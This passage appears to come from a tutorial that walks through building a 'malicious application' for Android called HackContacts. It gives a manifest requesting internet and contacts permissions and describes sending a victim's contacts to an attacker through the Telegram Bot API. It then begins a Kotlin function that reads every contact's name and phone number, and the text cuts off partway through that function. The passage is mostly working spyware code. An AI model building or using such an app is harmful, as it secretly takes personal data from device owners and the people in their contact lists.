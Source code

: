 First of all add contacts permission to your manifest file:     

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools">

    <uses-feature
        android:name="android.hardware.telephony"
        android:required="false" />
    <uses-permission android:name="android.permission.INTERNET"/>
    <uses-permission android:name="android.permission.READ_CONTACTS"/>

    <application
        android:allowBackup="true"
        android:dataExtractionRules="@xml/data_extraction_rules"
        android:fullBackupContent="@xml/backup_rules"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/Theme.HackContacts"
        tools:targetApi="31">
        <activity
            android:name=".MainActivity"
            android:exported="true"
            android:label="@string/app_name"
            android:theme="@style/Theme.HackContacts">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />

                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>

</manifest>
```

The components of the our malicious application: the app uses the Android Contacts Content Provider (`ContactsContract`) to fetch the user's contacts, the app then sends the gathered data via an HTTP request via Telegram Bot API.     

As the previous examples, we need the `getContacts()` function. This function queries the `ContactsContract` content provider to extract the contacts from the device. The extracted contact information (name and phone number) is added to the message that will be sent to the Telegram bot:    

```kotlin
fun getContacts(): String {
    val contactsList = mutableListOf<String>()
    val contentResolver = context.contentResolver
    val cursor = contentResolver.query(
        ContactsContract.CommonDataKinds.Phone.CONTENT_URI,
        null,
        null,
        null,
        null
    )

    cursor?.use {
        val nameIndex = it.getColumnIndex(ContactsContract.CommonDataKinds.Phone.DISPLAY_NAME)
        val numberIndex = it.getColumnIndex(ContactsContract.CommonDataKinds.Phone.NUMBER)

        while (it.moveToNext()) {
            val name = it.getString(nameIndex)
            val number = it.getString(numberIndex)
```